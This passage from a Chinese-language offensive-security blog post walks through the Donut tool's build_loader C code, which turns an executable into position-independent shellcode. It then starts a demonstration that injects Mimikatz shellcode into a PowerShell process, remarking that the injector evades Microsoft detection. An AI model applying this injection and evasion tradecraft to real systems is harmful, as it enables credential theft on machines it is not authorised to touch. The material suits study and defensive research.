   
在所有这些中，也许最有趣的是 build_loader，它包含以下代码：  

    
          *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    uint8_t *pl;uint32_t t;  
    // target is x86?if(c->arch == DONUT_ARCH_X86) {  c->pic_len = sizeof(LOADER_EXE_X86) + c->inst_len + 32;} else// target is amd64?if(c->arch == DONUT_ARCH_X64) {  c->pic_len = sizeof(LOADER_EXE_X64) + c->inst_len + 32;} else// target can be both x86 and amd64?if(c->arch == DONUT_ARCH_X84) {  c->pic_len = sizeof(LOADER_EXE_X86) +  sizeof(LOADER_EXE_X64) + c->inst_len + 32;}// allocate memory for shellcodec->pic = malloc(c->pic_len);  
    if(c->pic == NULL) {  DPRINT("Unable to allocate %" PRId32 " bytes of memory for loader.", c->pic_len);  return DONUT_ERROR_NO_MEMORY;}  
    DPRINT("Inserting opcodes");  
    // insert shellcodepl = (uint8_t*)c->pic;  
    // call $ + c->inst_lenPUT_BYTE(pl, 0xE8);PUT_WORD(pl, c->inst_len);PUT_BYTES(pl, c->inst, c->inst_len);// pop ecxPUT_BYTE(pl, 0x59);  
    // x86?if(c->arch == DONUT_ARCH_X86) {  // pop edx  PUT_BYTE(pl, 0x5A);  // push ecx  PUT_BYTE(pl, 0x51);  // push edx  PUT_BYTE(pl, 0x52);    DPRINT("Copying %" PRIi32 " bytes of x86 shellcode",  (uint32_t)sizeof(LOADER_EXE_X86));    PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));} else// AMD64?if(c->arch == DONUT_ARCH_X64) {  
      DPRINT("Copying %" PRIi32 " bytes of amd64 shellcode",  (uint32_t)sizeof(LOADER_EXE_X64));  
      // ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention    // and rsp, -0x10  PUT_BYTE(pl, 0x48);  PUT_BYTE(pl, 0x83);  PUT_BYTE(pl, 0xE4);  PUT_BYTE(pl, 0xF0);  // push rcx  // this is just for alignment, any 8 bytes would do  PUT_BYTE(pl, 0x51);    PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));} else// x86 + AMD64?if(c->arch == DONUT_ARCH_X84) {  
      DPRINT("Copying %" PRIi32 " bytes of x86 + amd64 shellcode",  (uint32_t)(sizeof(LOADER_EXE_X86) + sizeof(LOADER_EXE_X64)));  
      // xor eax, eax  PUT_BYTE(pl, 0x31);  PUT_BYTE(pl, 0xC0);  // dec eax  PUT_BYTE(pl, 0x48);  // js dword x86_code  PUT_BYTE(pl, 0x0F);  PUT_BYTE(pl, 0x88);  PUT_WORD(pl, sizeof(LOADER_EXE_X64) + 5);    // ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention    // and rsp, -0x10  PUT_BYTE(pl, 0x48);  PUT_BYTE(pl, 0x83);  PUT_BYTE(pl, 0xE4);  PUT_BYTE(pl, 0xF0);  // push rcx  // this is just for alignment, any 8 bytes would do  PUT_BYTE(pl, 0x51);    PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));  // pop edx  PUT_BYTE(pl, 0x5A);  // push ecx  PUT_BYTE(pl, 0x51);  // push edx  PUT_BYTE(pl, 0x52);  PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));}return DONUT_ERROR_OK;

同样，从简短的分析来看，该子例程基于原始可执行文件创建/准备与位置无关的 shellcode
以供以后注入，插入汇编指令以根据每个体系结构对齐堆栈，并使代码流跳转到可执行文件的原始
shellcode。请注意，这可能不是最新的代码，因为该文件的最后一次提交是在 2022 年 12 月，最新版本是在 2023 年 3
月，但它很好地说明了它的工作原理。  
最后，进入本节的概念证明，我将通过将 shellcode 注入本地 poweshell 进程来执行直接从 gentilkiwi 存储库获取的默认
Mimikatz。为此，我们需要先生成 PI 代码。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095456.png)  
生成 shellcode
后，我们现在可以使用我们喜欢的任何注入器来达到此目的。幸运的是，最新版本已经带有一个本地（用于执行它的进程）和一个远程（用于另一个进程）注入器，Microsoft尚未检测到特征，因此我将使用它。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621095457.png)  
